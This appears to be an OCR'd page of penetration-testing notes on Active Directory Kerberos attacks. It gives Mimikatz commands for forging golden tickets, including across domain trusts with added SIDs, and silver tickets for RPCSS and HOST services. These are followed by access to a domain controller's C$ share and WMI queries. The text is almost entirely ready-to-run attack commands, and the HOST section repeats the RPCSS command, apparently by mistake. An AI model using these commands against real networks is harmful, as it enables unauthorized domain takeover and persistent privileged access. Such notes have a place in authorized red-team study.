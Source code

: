```ps1
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:ab.cd.local /sid:<SID of ab.cd.local> /krbtgt:xxxxxxx /sids:<SID of cd.local> /ptt"'
```

To get the SID and SIDS


```ps1
ab.cd.local - Get-DomainSID
cd.local - Get-DomainSID -Domain cd.local
```

Access the share accross trusts

```ps1
ls //bc-dc/C$
```

### Domain

With the exe we inject a generic ticket of our session (to access our own domain, not across trusts)

```ps1
./mimikatz.exe
kerberos::golden /domain:xxx.local /sid:S-1-5-21-3965405831... /rc4:c6d349.... /user:newAdmin /id:500 /ptt
```

After that we will have access to domain DC

## Silver Ticket

We generate a tickets to many services, the ideia is the same always

Note: the  /rc4: is the HASH OF THE BOX, IS THIS CASE IT'S THE `DC$`

### RPCSS

```PS1
Invoke-Mimikatz -Command '"kerberos::golden /domain:ab.cd.local /sid:S-1-5-21- /target:DC.ac.cd.local /service:RPCSS /rc4:418ea3d41xxx /user:Administrator /ptt"'
```

We check the injected ticket

```ps1
klist
```

Now, we exect commands on the box

```ps1
gwmi -Class win32_operatingsystem -ComputerName DC.ac.cd.local
```

### HOST

```ps1
Invoke-Mimikatz -Command '"kerberos::golden /domain:ab.cd.local /sid:S-1-5-21- /target:DC.ac.cd.local /service:RPCSS /rc4:418ea3d41xxx /user:Administrator /ptt"'
```
